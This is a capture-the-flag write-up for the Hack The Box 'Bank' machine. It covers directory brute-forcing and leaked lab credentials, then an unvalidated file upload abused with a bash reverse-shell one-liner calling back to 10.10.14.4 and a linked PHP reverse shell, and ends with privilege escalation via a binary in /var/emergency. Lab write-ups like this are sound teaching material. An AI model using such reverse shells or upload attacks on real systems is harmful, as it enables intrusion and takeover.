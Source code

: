 1. Run nmap to discover some open ports and services from the web server. Unfortunately, It doesn't work :(
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/444b5f7e-77a0-4fa8-9436-7f7362b919da)

2. Let's move to the next step, I try to input the ip address and it refers to domain bank.htb. Add to **/etc/hosts/** so I can open the website.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3a8d03ce-6644-4a77-b25a-62a37f81fe5e)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4d75ea1a-0ee0-4043-ab12-1c4723a417d8)

3. I try to discover some paths with Feroxbuster and found nothing interesting.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/56060574-586b-49e9-8c89-11767235897c)

4. Next, I use Gobuster to helps me for checking the paths.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/983c2b5d-6a77-42e9-9212-9432426c9f91)

5. After waiting for a hour (I don't know why my Gobuster is running slowly), I discover an interesting path named balance-transfer which contains some files that been encrypted before. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/9a5fd218-6ba1-43a9-bf26-197780120082)

6. Checking one by one the file configuration and found there is one file that has a very small size.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/16f79c16-d0b8-4b3b-9ca4-1fe5490f989b)

7. Try to open it and discover that there is email and password inside the file. Let's login with the credentials!
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/80db165b-156a-4cda-9a1c-44d05e9b3af2)

**Email**: chris@bank.htb<br>
**Password**: !##HTBB4nkP4ssw0rd!##<br>

After Login:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/2b1071fd-84a8-462b-bb0f-950a338d076e)

8. There are only 2 features inside (Dashboard and Support). In dashboard, I found nothing important information so I try to check Support Feature.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/398599ce-83cd-4721-8f86-349407801036)

9. There are 3 inputs inside and one of them is file uploading. When I checked the source code, there is no validation related to file extension.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0d186ff2-f5d8-4718-a7b9-eaa3b7333197)

10. I realize that I can write payload inside a file and do reverse shell from this [link](https://www.revshells.com/). The file itself must be .htb extension to be accepted.

Payload: bash -c "bash -i >& /dev/tcp/10.10.14.4/777 0>&1"

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/df5e05a6-8f8b-49a2-bc83-d7fda57735e2)

11. When I opened the file, the payload didn't work.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/865f91da-ae43-45ac-ba0d-9f677021eacc)

12. I try upload another file with payload from [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and it works.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/3d6dcad6-9316-42b1-801c-dbe28eec3b6f)

Attacker Terminal:
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/0daeeb3d-7d38-4245-959a-73d22dd26409)

13. The flag is located in user.txt
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/055453f7-3cd0-497c-bf68-bae88abdb754)

14. Now I want to find the root flag and not suprisingly, I can't use sudo privileges.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1148f8d8-0b9a-464f-9ec9-40a9775df200)

15. Can't insert any external payload so the one solutions is find a interesting file to use. Luckily, there is a payload inside /var/emergency to escalate privilege.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1dd2ddf5-490c-4469-a2cf-4c61ec741f3a)

16. Just run with python and yes, I get the root privilege.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/c322a01f-6674-4bb9-ac4c-79bd6ffeb533)

17. The root flag is located in /root/root.txt.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/19aa24e4-402d-4972-a8ab-d179156fccab)




































